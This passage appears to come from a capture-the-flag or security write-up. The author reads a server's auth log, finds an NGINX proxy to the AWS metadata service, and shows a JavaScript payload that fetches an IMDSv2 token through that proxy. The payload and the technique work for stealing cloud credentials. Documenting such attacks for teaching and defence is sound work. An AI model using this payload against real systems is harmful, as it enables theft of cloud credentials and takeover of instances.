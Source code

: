 However, attempting to make use of the magic IP with `http://169.254.169.254/latest/api/token` gave me a status `0`, implying that my request was blocked at the network-level.

After further digging, I found that I could read the file `/var/log/auth.log`. Within there I found some services that are being executed.
```
2025-09-23T17:09:28.130733+00:00 ip-172-31-43-25 sudo: root : PWD=/home/ubuntu/app ; USER=root ; COMMAND=/usr/bin/ln -s /etc/nginx/sites-available/imds_proxy /etc/nginx/sites-enabled/
```

I found that the NGINX proxy had defined an IMDSv2 proxy at `/etc/nginx/sites-available/imds_proxy`.
```nginx
server {
    listen 45198;
    access_log /var/log/nginx/imds_access.log combined;
    add_header 'Access-Control-Allow-Origin' '*' always;
    add_header 'Access-Control-Allow-Methods' 'GET, OPTIONS, PUT' always;
    add_header 'Access-Control-Allow-Headers' 'X-Requested-With, Content-Type, X-aws-ec2-metadata-token, X-aws-ec2-metadata-token-ttl-seconds' always;
    location / {
        proxy_pass http://169.254.169.254/;
        proxy_http_version 1.1;
        proxy_set_header Host 169.254.169.254;
        proxy_set_header Connection "";
        proxy_set_header X-aws-ec2-metadata-token $http_x_aws_ec2_metadata_token;
        proxy_connect_timeout 60s;
        proxy_read_timeout 120s;
        proxy_send_timeout 120s;
        if ($request_method = OPTIONS) {
            add_header 'Access-Control-Allow-Origin' '*' always;
            add_header 'Access-Control-Allow-Methods' 'GET, OPTIONS, PUT' always;
            add_header 'Access-Control-Allow-Headers' 'X-Requested-With, Content-Type, X-aws-ec2-metadata-token, X-aws-ec2-metadata-token-ttl-seconds' always;
            return 204;
        }
    }
}
```

Using the internal proxy, I managed to get the token.
```html
<script>
    let xhr = new XMLHttpRequest();

    xhr.onreadystatechange = function() {
        if (xhr.readyState === 4) {
            document.open();
            document.write('<html><body><pre>' + xhr.responseText + '</pre></body></html>');
            document.close();
        }
    };

    xhr.open("PUT", "http://127.0.0.1:45198/latest/api/token", true);
    xhr.setRequestHeader("X-aws-ec2-metadata-token-ttl-seconds", "21600");
    xhr.send();
</script>
```
